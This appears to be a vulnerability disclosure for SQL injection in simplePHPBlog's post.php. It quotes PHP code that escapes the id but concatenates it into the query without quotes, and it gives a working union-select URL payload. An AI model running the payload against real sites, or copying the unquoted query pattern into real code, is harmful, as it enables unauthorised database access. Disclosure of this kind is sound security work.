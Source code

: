 #simplePHPBlog SQL injection#

##Vulnerability link##

https://github.com/ajamous/simplePHPBlog

##Vulnerability details##

post.php

	<?php
	    require 'config/db.php';
	    //Get ID of POST
	    $id = mysqli_real_escape_string($conn, $_GET['id']);
	    //create query
	    $query = 'SELECT * FROM posts WHERE id = ' .$id;
	    // get the results
	    $result = mysqli_query($conn, $query);
	    // Fetch Data from database
	    $post = mysqli_fetch_assoc($result);
	    // var_dump is used to test out the query results - enable if needed only
	    //var_dump($posts);
	    // Free the results from memory
	    mysqli_free_result($result);
	    // close connection with MySQL database once you have retreived the data
	    mysqli_close($conn);
	?>

In this code `id` use `mysqli_real_escape_string` but in sql query `$query = 'SELECT * FROM posts WHERE id = ' .$id;` there is no single quotes to use in sql.


	--
	-- Table structure for table `posts`
	--
	
	CREATE TABLE `posts` (
	  `id` int(11) NOT NULL,
	  `title` varchar(255) NOT NULL,
	  `body` text NOT NULL,
	  `author` varchar(255) NOT NULL,
	  `created_at` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
	) ENGINE=InnoDB DEFAULT CHARSET=utf8;


 
##exploit:##

http://target/post.php?id=-1 union select 1,2,user(),version(),5
